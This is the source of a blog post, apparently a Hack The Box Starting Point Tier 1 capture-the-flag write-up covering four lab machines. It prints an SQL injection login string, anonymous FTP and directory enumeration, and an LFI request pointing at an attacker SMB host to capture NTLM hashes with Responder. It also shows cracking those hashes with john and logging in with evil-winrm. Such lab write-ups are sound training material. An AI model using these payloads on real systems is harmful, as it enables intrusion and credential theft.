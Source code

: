 ```yaml
---
layout: post
title: 'HTB | Tier 1'
permalink: /htb/starting-point/tier-1/
---
```


# Appointment
## Connection
We can search the IP in the navbar to get a website.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_1.jpg" weight="100%" />

We will try a basic sql-injection, login with the user:
{% highlight bash %}
' or '1'='1' #
{% endhighlight %}
For the password we just need to write a letter.

## Flag
The flag will be in front of us.

---

# Sequel
## Connection
We will use mysql to connect, with the **root** user.
{% highlight bash %}
> mysql -u root -h 10.129.220.35
{% endhighlight %}

## Flag
Now we are in, we just need to list all the databases and search for the flag.
{% highlight mysql %}
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
{% endhighlight %}

---

# Crocodile
## Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
{% highlight bash %}
> ftp 10.129.122.93
{% endhighlight %}
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
{% highlight bash %}
>  gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
{% endhighlight %}

## Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.

--- 

# Responder
### Enumeration
Nmap:
{% highlight plain %}
#Nmap 7.92 scan initiated Sat Apr 30 10:43:29 2022 as: nmap -p- -T5 -oN nmap2 10.129.212.41
Nmap scan report for 10.129.212.41
Host is up (0.054s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
7680/tcp open  pando-pub

#Nmap done at Sat Apr 30 10:45:10 2022 -- 1 IP address (1 host up) scanned in 101.42 seconds
{% endhighlight %}

##### We need to add the IP with the domain to access the webpage.

### Explotation
We found a <a href="{{ "/notes/web/lfi-rfi/" | prepend: site.baseurl }}">LFI</a> in the page.
Then we can start a **Samba** server and forces the page to load it:
{% highlight bash %}
> sudo responder -I tun0 -A
{% endhighlight %}
And then:
{% highlight plain %}
http://unika.htb/index.php?page=//10.10.15.167/kali
{% endhighlight %}

This will give us the password encrypted. With **john** we can decode it:
{% highlight bash %}
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2
{% endhighlight %}
##### We can found all the previosly hashes in **/usr/share/responder/logs/Responder-Session.log**.

Finally we can exploit **winrm** and get the flag:
{% highlight bash %}
> evil-winrm -i 10.129.212.41 -u Administrator -p badminton
{% endhighlight %}

### Flag
Finally we can get the flag in the **Desktop**.

